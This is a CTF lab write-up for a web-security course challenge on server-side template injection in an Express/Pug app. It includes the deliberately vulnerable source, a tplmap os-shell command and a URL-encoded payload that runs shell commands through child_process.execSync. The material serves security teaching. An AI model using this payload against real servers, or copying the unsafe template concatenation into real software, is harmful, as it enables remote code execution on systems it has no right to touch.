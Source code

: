```yaml
---
title: Simple Web 0x22(Lab - Pug)
tags: [NTUSTWS, CTF, Web]

category: "Security/Course/NTUST WS/SSTI"
---
```


# Simple Web 0x22(Lab - Pug)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8008

## Source code
:::spoiler
```javascript=
const express = require('express');
const pug = require('pug');

const app = express();

const template = `
h1 Hello %NAME%
form(method='GET' action='/')
  div
    label(for='nickname') Name:
    input#nickname(type='text', placeholder='Nickname' name='name')
    button(type='submit') Submit 
  a(href='/source') Source Code
`;

app.get('/', (req, res) => {
    const name = (req.query.name ?? 'Anonymous').toString();
    if (name.includes('{')) return res.send('Nice try');
    let html = pug.render(template.replace('%NAME%', name));
    res.set('Content-Type', 'text/html');
    res.send(html);
});

app.get("/source", (_, res) => {
    res.sendFile(__filename);
});

app.listen(3000, () => console.log(':3000'));

```
:::
## Exploit - `tqlmap`
```bash!
$ ./tplmap.py --engine pug --os-shell -u "http://h4ck3r.quest:8008/?name=bob"
```

* Using wireshark to trace the payload
You must let the template by like:
    ```javascript!
    const template = `
    h1 Hello %NAME%
    = global.process.mainModule.require('child_process').execSync(Buffer('bHM=', 'base64').toString())
    form(method='GET' action='/')
      div
        label(for='nickname') Name:
        input#nickname(type='text', placeholder='Nickname' name='name')
        button(type='submit') Submit 
      a(href='/source') Source Code
    `;
    ```
    Including a new line and an equal sign
    Payload:
    `%0A%3D%20global.process.mainModule.require%28%27child_process%27%29.execSync%28Buffer%28%27bHM%3D%27%2C%2B%27base64%27%29.toString%28%29%29`
    which is
    ```

    = global.process.mainModule.require('child_process').execSync(Buffer('bHM=',+'base64').toString())
    ```
* Note that `bHM=` is command `ls` in base64 format
## Reference
[关于SSTI注入的二三事](https://xz.aliyun.com/t/11090)
[【SSTI模块注入】SSTI+Flask+Python（下）：绕过过滤](https://blog.51cto.com/u_15414689/5530904)
[0xdbe-appsec/ssti-express-pug](https://github.com/0xdbe-appsec/ssti-express-pug)
[Tplmap](https://github.com/epinna/tplmap/blob/master/README.md)
[[Linux系統] Ubuntu 安裝 Node.js](https://andy6804tw.github.io/2019/09/23/ubuntu-indtall-nodejs/)